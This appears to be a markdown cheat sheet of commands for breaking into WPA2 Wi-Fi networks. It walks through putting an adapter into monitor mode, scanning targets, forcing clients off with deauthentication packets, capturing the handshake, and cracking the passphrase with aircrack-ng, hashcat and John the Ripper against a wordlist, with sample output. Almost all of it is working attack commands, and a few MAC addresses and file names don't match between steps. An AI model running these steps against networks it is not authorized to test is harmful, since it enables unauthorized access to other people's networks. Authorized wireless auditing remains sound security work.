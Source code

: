 ### Normal setup

```text
sudo systemctl stop NetworkManager
sudo airmon-ng check kill
sudo iw dev
```
#### Create Monitor Mode Device

```text
sudo ip link set wlan0 down
sudo iw dev wlan0 interface add wlan0mon type monitor
sudo ip link set wlan0mon up					            
```

#### Set channel if needed
```text
iw wlan0mon set channel 7
```

### Check for networks with WPS available
```text
sudo airodump-ng wlan0mon
```
```text
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID 
30:94:8F:E8:89:5F  -25      240      131    0   6  130   WPA2 CCMP   PSK  linksys

BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
30:94:8F:E8:89:5F  E4:84:D3:2E:1F:22  -38    1e- 1e   948      265
```

### Monitor/grab packets and wait for the handshake
```text
airodump-ng -c 6 --bssid 30:94:8F:E8:89:5F -w file wlan0mon
```

### De-auth for a seprate channel to spead up / bute force the handshake
```text
aireplay-ng -0 1 -a 30:94:8F:E8:89:5F -c E4:84:D3:2E:1F:42 wlan0
```

### once handshake has been collected ....


### Review packets captured
```text
aircrack-ng file-01.cap
```
```text
  #  BSSID              ESSID                     Encryption
   1  30:94:8F:E8:89:5F  linksys                WPA (1 handshake)
```

### Tidy up cap file and reduce size
```text
tshark -r file-01.cap -R "(wlan.fc.type_subtype == 0x08 || wlan.fc.type_subtype == 0x05 || eapol) && wlan.addr == 30:94:8F:E8:89:5F" -2 -w out.cap -F pcap
```
### Review output file
```text
aircrack-ng out.cap
```

### Cracking

```text
locate rockyou.txt

aircrack-ng -a2 -b 10:27:F5:66:BE:27 -w rockyou.txt out.cap
```
#### Or a faster way to crack

```text
22000 | WPA-PBKDF2-PMKID+EAPOL
22001 | WPA-PMK-PMKID+EAPOL
```

```text
hcxpcapngtool -o hash.hc22000 -E wordlist out.cap

hashcat -m 22000 hc2200.txt rockyou.txt
```
```text
john --wordlist=rockyou.txt --format=wpapsk hc2200.txt 
```



https://charlesreid1.com/wiki/John_the_Ripper/WPA
https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2












